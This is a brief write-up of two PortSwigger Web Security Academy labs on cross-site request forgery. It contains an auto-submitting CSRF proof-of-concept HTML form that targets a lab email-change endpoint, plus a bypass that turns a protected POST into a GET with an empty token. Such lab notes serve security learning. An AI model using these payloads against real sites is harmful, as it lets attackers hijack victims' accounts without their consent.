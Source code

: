```yaml
---
description: https://portswigger.net/web-security/csrf
---
```


# Cross-site request forgery (CSRF)

### Lab: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

There is no csrf protection.

POST /my-account/change-email -> Engagements Tools -> CSRF PoC Generator -> Include Auto-Submit Script(checked) -> Regenerate -> Copy HTML

**Exploit Server ->**

```
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://acd71f561e07ef5fc0553244005800ca.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html>
```

### Lab: CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

There is weak csrf protection. We can bypass it with using another type of request.

```
POST /my-account/change-email HTTP/1.1
...
email=test%40test.com&csrf=sxvRDU1AMkOoKQAHggYlMxmYvwux8VQO
```

```
GET /my-account/change-email?email=test1%40test.com&csrf= HTTP/1.1
```
